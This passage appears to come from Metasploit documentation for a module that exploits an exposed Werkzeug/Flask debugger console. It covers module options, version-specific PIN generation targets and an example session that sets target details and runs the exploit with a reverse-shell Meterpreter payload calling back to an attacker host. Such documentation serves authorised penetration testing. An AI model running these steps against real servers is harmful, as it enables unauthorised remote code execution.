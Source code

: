 ### `METHOD`

HTTP method used to access debugger or console. This is typically GET if the
`TARGETURI` is `/console` but it may be necessary to use other methods to
trigger the debugger. Valid values are: `GET`, `HEAD`, `POST`, `PUT`, `DELETE`,
`OPTIONS`, `TRACE` and `PATCH`. **When `METHOD` is `POST`, `PUT` or `PATCH` the
following additional option may be set:**

- `REQUESTBODY`: Body to send in POST/PUT/PATCH request, if required to trigger
  the debugger. E.g. invalid form value to raise an exception. **When this is
  set the following additional option may be set:**
  - `REQUESTCONTENTTYPE`: Request body encoding. Default:
    `application/x-www-form-urlencoded`

### `TARGETURI`

The path to the console or resource used to trigger the debugger. Default value
is `/console`.

### `VHOST`

The value to use in the HTTP `Host` header. It may be necessary to set this to
`127.0.0.1` or `localhost` if the target Werkzeug version is 3.0.3 or later,
however this may hamper connectivity if the `Host` header is validated before
the request is passed to the application.

### `TARGET`

Determines which algorithm the exploit module will use to generate a pin and
cookie. Valid values are:

- `0`: Werkzeug > 1.0.1 (Flask > 1.1.4)
- `1`: Werkzeug 0.11.6 - 1.0.1 (Flask 1.0 - 1.1.4)
- `2`: Werkzeug 0.11 - 0.11.5 (Flask < 1.0)
- `3`: Werkzeug < 0.11 (Flask < 1.0)

## Scenarios

Example utilizing the previously mentioned sample app listed above.

    $ msfconsole -q                         
    msf6 > use exploit/multi/http/werkzeug_debug_rce
    [*] No payload configured, defaulting to python/meterpreter/reverse_tcp
    msf6 exploit(multi/http/werkzeug_debug_rce) > set RHOSTS 192.168.23.5
    RHOSTS => 192.168.23.5
    msf6 exploit(multi/http/werkzeug_debug_rce) > set LHOST 192.168.23.117
    LHOST => 192.168.23.117
    msf6 exploit(multi/http/werkzeug_debug_rce) > set VHOST 127.0.0.1
    VHOST => 127.0.0.1
    msf6 exploit(multi/http/werkzeug_debug_rce) > set MACADDRESS 02:42:ac:12:00:04
    MACADDRESS => 02:42:ac:12:00:04
    msf6 exploit(multi/http/werkzeug_debug_rce) > set MACHINEID 8d496199-a25e-4340-9c8d-2dc2041c75f8
    MACHINEID => 8d496199-a25e-4340-9c8d-2dc2041c75f8
    msf6 exploit(multi/http/werkzeug_debug_rce) > set FLASKPATH /usr/local/lib/python3.12/site-packages/flask/app.py
    FLASKPATH => /usr/local/lib/python3.12/site-packages/flask/app.py
    msf6 exploit(multi/http/werkzeug_debug_rce) > run
